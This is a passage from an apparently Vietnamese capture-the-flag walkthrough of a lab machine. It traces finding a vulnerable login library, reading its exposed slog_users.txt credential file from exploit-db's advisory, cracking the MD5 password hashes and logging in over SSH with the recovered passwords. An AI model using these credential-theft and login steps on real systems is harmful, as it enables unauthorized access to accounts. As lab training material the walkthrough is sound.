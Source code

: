 Thử các payload khai thác SQLi, trang đăng nhập báo lỗi ở thư viện `slogin_lib.inc`:

```
Deprecated: Function ereg_replace() is deprecated in /var/www/html/developmentsecretpage/slogin_lib.inc.php on line 335

Deprecated: Function ereg_replace() is deprecated in /var/www/html/developmentsecretpage/slogin_lib.inc.php on line 336
```

Thử tìm kiếm thư viện này trên exploitdb, thu được https://www.exploit-db.com/exploits/7444.

```
In this login system, sensible datas like username and password are stored in a local
text file , so we can get sensitive information just going to this txt file . The name of
this file is set in slogin_lib.inc.php. By default is: slog_users.txt

[!] EXPLOIT: /[path]/slog_users.txt
```

Thử truy cập đến trang 192.168.182.136:8080/developmentsecretpage/slog_users.txt, lấy được user và password đã bị hash:

```
admin, 3cb1d13bb83ffff2defe8d1443d3a0eb
intern, 4a8a2b374f463b7aedbb44a066363b81
patrick, 87e6d56ce79af90dbe07d387d3d0579e
qiu, ee64497098d0926d198f54f6d5431f98
```

Do ta không biết password này được hash theo kiểu nào nên ta tiến hành dò tìm theo tất cả kiểu hash thông dụng, bài này sử dụng công cụ ở trang https://md5hashing.net/hash.

![img](img/hash.png)

Thu được kết quả:

```
intern, 12345678900987654321
patrick, P@ssw0rd25
```

Dùng username và password này để ssh vào server:

```
┌──(root㉿kali)-[/home/kali]
└─# ssh intern@192.168.182.136
intern@192.168.182.136's password: 
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-200-generic x86_64)

[...]

Last login: Tue Dec 13 08:29:01 2022 from 192.168.182.135
Congratulations! You tried harder!
Welcome to Development!
Type '?' or 'help' to get the list of allowed commands
intern:~$ ?
cd  clear  echo  exit  help  ll  lpath  ls
```